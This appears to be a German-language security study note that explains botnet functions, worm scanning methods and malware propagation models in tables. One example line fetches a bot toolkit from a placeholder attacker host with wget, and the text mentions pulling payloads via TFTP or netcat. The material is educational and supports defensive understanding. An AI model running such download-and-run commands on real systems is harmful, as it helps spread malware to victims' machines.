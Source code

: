 ## 🕸️ Botnet-Funktionalität

| Verwendungszweck | Beschreibung |
|------------------|--------------|
| DDoS | Ressourcenüberlastung durch koordinierte Anfragen |
| Spam | SOCKS-Proxy zum Versand von Massen-E-Mails |
| Sniffing | Datenverkehr mitschneiden (z. B. Passwörter) |
| Keylogging | Tastatureingaben speichern |
| Mining | Krypto-Mining auf infizierten Geräten |

---

## 🔍 Scanning-Methoden

| Methode | Beschreibung |
|--------|--------------|
| **Random Scanning** | Zufällige IP-Adressbereiche prüfen |
| **Hit-list Scanning** | Vorgefertigte Ziel-Liste nutzen |
| **Topological Scanning** | Links/Dateien auf kompromittierten Hosts auswerten |
| **Permutation Scanning** | Koordinierte Verteilung durch gemeinsame Permutationslisten |

---

## 🔁 Schadcode-Verbreitung

- **Central Source**: Zentraler Server verteilt Toolkit
- **Back-Chaining**: Infizierter Host fordert Dateien an
- **Autonomous**: Infektion direkt beim Angriff

| Methode           | Erklärung                                                                                   | Beispiel                                                                 |
|-------------------|---------------------------------------------------------------------------------------------|--------------------------------------------------------------------------|
| **Central Source** | Angreifer nutzt zentralen Server (z. B. HTTP/FTP), von dem das Toolkit heruntergeladen wird. | `wget http://malware.example.com/bot.sh` lädt das Toolkit herunter.     |
| **Back-Chaining** | Infiziertes Zielsystem stellt Verbindung zum Angreifer her, um sich aktiv das Toolkit zu holen. | `TFTP` oder `netcat` ruft Payload vom Angreifer-Host ab.                |
| **Autonomous**     | Infizierter Host enthält den Code bereits und verbreitet ihn selbständig weiter.             | Wurm nutzt SMB oder RCE zur Weiterverbreitung im lokalen Netzwerk.      |


| Kriterium                 | Central Source | Back-Chaining | Autonomous     |
|---------------------------|----------------|----------------|----------------|
| **Verteilungslogik**      | Vom Server zum Opfer | Opfer lädt beim Angreifer herunter | Opfer überträgt selbst |
| **Abhängigkeit vom Angreifer** | Hoch           | Mittel         | Gering         |
| **Firewall-Bypass möglich?** | Nein           | Ja (ausgehend) | Ja (intern)    |
| **Typische Protokolle**   | HTTP, FTP, SMB  | TFTP, Netcat   | SMB, RPC, RCE  |
